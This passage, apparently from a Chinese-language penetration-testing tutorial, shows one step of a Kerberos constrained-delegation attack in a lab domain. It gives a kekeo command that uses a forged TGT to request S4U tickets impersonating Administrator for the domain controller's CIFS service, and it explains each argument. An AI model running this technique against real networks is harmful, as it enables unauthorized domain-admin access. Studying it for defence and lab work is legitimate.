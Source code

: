 ![image-20230801174331781](assets/image-20230801174331781-172995737576615.png)

### 3.2.4. 获取域控票据

通过这刚刚生成的TGT伪造s4u请求以Administrator用户身份去访问域控的的CIFS的ST，S4U2Self 获取到的 ST1 以及 S4U2Proxy 获取到的 AD-2008 CIFS 服务的 ST2 会保存在当前⽬录下。

所以在当前目录下会出现两个新的票据。

```
shell kekeo.exe "tgs::s4u /tgt:TGT_webadmin@0DAY.ORG_krbtgt~0day.org@0DAY.ORG.kirbi /user:Administrator@0day.org /service:cifs/OWA2010SP3.0day.org" "exit"

第一个斜杠后面的是你刚刚生成的TGT伪造的票据名称。
第二个斜杠后面的是以administrator身份去访问，注意要在后面添加上域名哦。
第三个斜杠后面的是设置的CIFS的域控主机名与域名
```

![image-20230801174836347](assets/image-20230801174836347-172995737576616.png)
